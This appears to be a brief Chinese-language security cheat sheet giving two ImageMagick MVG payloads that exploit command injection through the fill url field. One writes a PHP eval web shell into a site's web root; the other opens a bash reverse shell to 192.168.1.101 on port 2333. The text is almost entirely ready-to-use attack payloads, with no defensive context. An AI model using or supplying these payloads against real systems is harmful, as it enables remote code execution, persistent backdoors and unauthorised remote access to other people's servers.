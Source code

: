 ![](img/6.png)

- 写一句话到网站根目录下：
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://xxxxx.com/1.jpg"|echo \'<?php eval($_POST[\'ant\']);?>\' > shell.php")'
    pop graphic-context
    ```

- 反弹 shell:
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.101/2333 0>&1")'
    pop graphic-context
    ```
